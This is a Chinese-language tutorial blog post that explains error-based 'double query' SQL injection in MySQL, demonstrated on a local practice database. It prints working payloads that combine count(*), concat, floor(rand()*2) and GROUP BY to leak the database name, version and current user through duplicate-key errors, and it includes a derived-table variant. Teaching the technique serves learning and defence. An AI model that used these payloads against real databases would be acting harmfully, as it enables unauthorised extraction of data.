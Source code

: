 title: 详细讲解双查询注入
tags:
  - mysql
  - 互联网
  - 学习
  - 安全
id: 2770
categories:
  - 学习笔记
date: 2013-03-03 07:53:24
---

上一篇文章中，[http://leaver.me/archives/2726.html](http://leaver.me/archives/2726.html)

我说双查询很难讲清楚，这次就试着讲一下。读了一些原理性的东西。然后尽量通俗的给大家讲清楚。。

在此之前，我们理解一下子查询，查询的关键字是select，这个大家都知道。子查询可以简单的理解在一个select语句里还有一个select。里面的这个select语句就是子查询。

看一个简单的例子：

<pre class="lang:default decode:true " >Select concat((select database()));</pre> 

真正执行的时候，先从子查询进行。因此执行select database() 这个语句就会把当前的数据库查出来，然后把结果传入到concat函数。这个函数是用来连接的。比如 concat(‘a’,’b’)那结果就是ab了。

原理：

双注入查询需要理解四个函数/语句
1\. Rand()  //随机函数
2\. Floor()  //取整函数
3\. Count()  //汇总函数
4\. Group by clause //分组语句

简单的一句话原理就是有研究人员发现，当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

以本地一个名为Security的数据库为例
首先在bt5下的命令行下输入

<pre class="lang:default decode:true " >mysql -u root –p toor</pre> 

就会连接上数据库了。
然后通过use security； 就可以切换到security数据库了。因为一个服务器上可能有多个数据库嘛。
[![](/images/522ac49ec64d3b7735b3dc208564de22477e4aba.png)](http://leaverimage.b0.upaiyun.com/33517_o.png)

然后我们执行一下前面那个简单的子查询的例子

<pre class="lang:default decode:true " >SELECT concat((select database()));</pre> 

就能显示security，也就是显示了当前数据库的名字了。
然后我们测试一下concat的用法。输入

<pre class="lang:default decode:true " >SELECT concat('string1','string2');</pre> 

显然结果就是string1string2了

[![](/images/a8be70e4ddb999500369b44191c7c188b4ecf651.png)](http://leaverimage.b0.upaiyun.com/33518_o.png)
然后我们测试一下rand()这个随机函数是干嘛的

<pre class="lang:default decode:true " >Select rand();</pre> 

我们多执行几次
 [![](/images/ab02015d63c2fc6d0af98492ae791d58a7665000.png)](http://leaverimage.b0.upaiyun.com/33519_o.png)
可以看到，这个函数就是返回大于0，小于1之间的数
然后看看取整函数

<pre class="lang:default decode:true " >Select floor(1.1123456);</pre> 
[![](/images/4477acaba79cf1464c028cab96e32534d81af2e5.png)](http://leaverimage.b0.upaiyun.com/33520_o.png)
这个函数就是返回小于等于你输入的数的整数。

然后我们看看双注入查询中的一个简单组合。大家从我的上一篇文章中应该也看到了有一个子查询是

<pre class="lang:default decode:true " >SELECT floor(rand()*2);</pre> 

我们从里向外看。rand() 返回大于0小于1的小数，乘以2之后就成了小于0小于2了。然后对结果进行取证。就只能是0或1了。也就是这个查询的结果不是1，就是0
我们稍微加大一点难度。看这个查询

<pre class="lang:default decode:true " >SELECT CONCAT((SELECT database()), FLOOR(RAND()*2));</pre> 

不要怕。先看最里面的SELECT database() 这个就返回数据库名，这里就是security了。然后FLOOR(RAND()*2)这个上面说过了。不是0，就是1.然后把这两个的结果进行concat连接，那么结果不是security0就是security1了。

[![](/images/f29b4115541e053c2e100bc7a35cdd51aaa9c2e5.png)](http://leaverimage.b0.upaiyun.com/33521_o.png)
如果我们把这条语句后面加上from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的。比如一个管理表里有5个管理员。这个就会返回五条记录，这里users表里有13个用户，所以返回了13条
[![](/images/d272e51a8be57b8739ab1c63516af31cd795f6ab.png)](http://leaverimage.b0.upaiyun.com/33522_o.png)
如果是从information_schema.schemata里，这个表里包含了mysql的所有数据库名。这里本机有三个数据库。所以会返回三个结果

[![](/images/8c67270890234e1d851d71c02e44e7511cedcdbd.png)](http://leaverimage.b0.upaiyun.com/33523_o.png)

现在我们准备加上Group By 语句了。
我们使用information_schema.tables 或 information_schema.columns者两个表来查询。因为表里面一般数据很多。容易生成很多的随机值，不至于全部是security0，这样就不能查询出结果了。

<pre class="lang:default decode:true " >select concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

这里我先解释一下。我们把concat((select database()), floor(rand()*2)) 这个结果取了一个别名 a ，然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了。
 [![](/images/c9ad11cc6de49646801b61d3143e1fa9c5d0b0af.png)](http://leaverimage.b0.upaiyun.com/33524_o.png)

注意。这里的database()可以替换成任何你想查的函数，比如version(), user(), datadir()或者其他的查询。比如查表啊。查列啊。原理都是一样的。

最后的亮点来了。。
我们输入这条：注意多了一个聚合函数count(*)

<pre class="lang:default decode:true " >select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 
[![](/images/03af307809c7bcdfd4f77d3551d39e1d7fa7e515.png)](http://leaverimage.b0.upaiyun.com/33525_o.png)

报错了

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry 'security1' for key ‘group_key’</pre> 

重复的键值 可以看到security就是我们的查询结果了
想要查询版本就这样：

<pre class="lang:default decode:true " >select count(*), concat((select version()), floor(rand()*2))as a from information_schema.tables group by a;</pre> 

看看替换了database()为version()
 [![](/images/b4e9f38f4533442b15107ce4b92d7d9d370bc934.png)](http://leaverimage.b0.upaiyun.com/33527_o.png)
再看一个

<pre class="lang:default decode:true " >select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;</pre> 

报错

<pre class="lang:default decode:true " >ERROR 1062 (23000): Duplicate entry '~root@localhost~1' for key 'group_key'</pre> 

这里的~这个符号只是为了让结果更清晰。

这里还有一个比较复杂的。叫做派生表。需要使用
select 1 from (table name); 这样的语法来报错，具体就是

<pre class="lang:default decode:true " >select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;</pre> 

来报错。

大家可以对照我上一篇文章来看。相信讲的还算清楚。
